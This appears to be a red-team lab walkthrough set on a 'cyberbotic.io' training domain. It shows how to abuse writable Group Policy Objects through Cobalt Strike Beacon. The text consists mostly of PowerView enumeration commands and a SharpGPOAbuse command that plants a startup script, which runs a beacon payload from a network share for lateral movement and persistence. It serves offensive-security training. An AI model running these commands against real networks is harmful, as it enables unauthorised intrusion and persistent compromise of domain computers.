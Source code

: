 ```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

Let's resolve the GPO name and the SID of the principal.

```
beacon> powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
```

```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
```

We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.

```
beacon> powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
```

Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.

```
beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName
```

To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
```

We can do that manually or use an automated tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it.

Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).

```
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
```

Note that you can find this `software` share using PowerView:  

```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```
  